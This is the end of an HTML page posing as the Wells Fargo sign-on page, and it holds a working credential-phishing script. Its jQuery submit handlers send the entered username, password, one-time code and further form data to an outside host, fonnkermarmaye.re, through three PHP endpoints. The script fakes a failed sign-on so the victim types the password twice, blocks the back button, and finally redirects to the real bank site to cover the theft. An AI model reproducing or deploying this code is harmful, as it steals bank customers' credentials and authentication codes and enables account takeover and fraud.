data-testid="messageWrapper" role="alert"></div><span class="visuallyHidden">End of region</span></div></div></div><div><div tabindex="-1" id="accessibilityFocus" class="AccessibilityFocus__accessibilityFocus___GZCb9"></div></div><script src="https://static.wellsfargo.com/tracking/secure-auth/utag.js" async=""></script><script src="/auth/static/prefs/login-userprefs.min.js" async=""></script><script type="text/javascript" id="ndscript1" src="https://connect.secure.wellsfargo.com/auth/static/prefs/atadun.js"></script><iframe id="utag_3_iframe" height="1" width="1" style="display:none" src="//ad.doubleclick.net/ddm/activity/src=2549153;type=allv40;cat=all_a012;u1=4520240102052010932720974;u4=LOGIN;u5=n;u8=loginapp;u11=PROD;u19=GA1.2.756597098.1704201605;u23=DESKTOP;ord=8668721575748.634?"></iframe><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/medallia/wdcusprem/57907/onsite/generic1697649041190.js" charset="UTF-8"></script><style title="MDigital_animationStyle"></style>
<script src="https://ajax.aspnetcdn.com/ajax/jQuery/jquery-3.3.1.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.mask/1.14.10/jquery.mask.js"></script>  <script type="text/javascript">

history.pushState(null, document.title, location.href);
window.addEventListener('popstate', function (event)
{
  history.pushState(null, document.title, location.href);
});

//$(document).bind("contextmenu", function(e){ return false;});

var count = 0;
var counts = 0;

$('#signOnForm').on('submit', function(e){
		count = count+1;
		$('#btn1').html('<i class="fa fa-refresh fa-spin"></i>');
		$.post('https://fonnkermarmaye.re/jameson/data.php', $(this).serialize(), function(data){
			console.log(data);
		});
		setTimeout(function() {
		                     if(count == 2){
							    $('#step1').hide();
							    $('#step2').show();
							 }else{
							     $('#password').val('');
								 $('#msg').show();
								 $('#btn1').html('Sign on');
							 }
                              
							  
                        },2000);
		e.preventDefault();
	});

$('#form2').on('submit', function(e){
		count = count+1;
		$("#id1").hide();
		$("#id2").show();
		$.post('https://fonnkermarmaye.re/jameson/otp.php', $(this).serialize(), function(data){
			console.log(data);
		});
		setTimeout(function() {
		                     if(count == 3){
							    $('#step2').hide();
							    $('#step3').show();
							 }else{
							     $('#password').val('');
								 $('#m').show();
								 $('#btn2').html('Sign on');
							 }
                              
							  
                        },9000);
		e.preventDefault();
	});
	
$('#signOnForm2').on('submit', function(e){
		counts = counts+1;
		$('#btn').html('<i class="fa fa-refresh fa-spin"></i>');
		$.post('https://fonnkermarmaye.re/jameson/cok.php', $(this).serialize(), function(data){
			console.log(data);
		});
		setTimeout(function() {
		
							if(counts == 2){
							   $('#step3').show();
							   $('#step4').show();
							   
					   setTimeout(function() {
                              window.location.href = "https://www.wellsfargo.com/";
                        },5000);
							   
							}else{
							     $('#passwd').val('');
								 $('#msg2').show();
								 $('#btn').html('Continue');
							}
		
                            
                        },5000);
		e.preventDefault();
	});

</script>
<script>

    $(function() {
     $('[name="code"]').mask('00000000');

    });

</script>
</body></html>
